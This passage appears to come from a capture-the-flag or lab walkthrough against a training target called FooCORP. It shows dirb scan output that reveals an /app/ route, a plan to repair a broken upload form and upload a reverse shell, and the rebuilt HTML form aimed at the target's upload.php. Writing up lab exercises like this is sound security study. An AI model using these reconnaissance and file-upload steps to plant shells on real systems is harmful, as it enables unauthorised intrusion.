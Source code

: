 {% tab title="Output dirb" %}
```
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Aug  2 09:46:23 2021
URL_BASE: http://75ajvxi36vchsv584es1.foocorp.io/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://75ajvxi36vchsv584es1.foocorp.io/ ----
==> DIRECTORY: http://75ajvxi36vchsv584es1.foocorp.io/app/  
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
**A route to an app was discovered**

* [http://75ajvxi36vchsv584es1.foocorp.io/app/ ](http://75ajvxi36vchsv584es1.foocorp.io/app/)
* A file can be uploaded although form is broken

Actions:

* Fix upload form
* Upload reverse shell
{% endhint %}

{% tabs %}
{% tab title="Download Form" %}
```bash
# Save a local file with this updated code for the form
# Notice the form action argument
<html><body style="background: black; color: white;">
<script src="http://75ajvxi36vchsv584es1.foocorp.io/app/js/auth.js"></script>
<center><div style="border: 1px yellow double">
<br /><br />
<form action="http://75ajvxi36vchsv584es1.foocorp.io/app/upload.php" method="post" enctype="multipart/form-data">
<br />Select  file to upload:
<input type="file" name="fileToUpload" id="fileToUpload">
<input type="submit" value="Upload" name="submit">
</form>
<br /><br />
</div></center>
<hr /><br />
<center>&copy; FooCORP 2021</center>
<body></html>
```
{% endtab %}
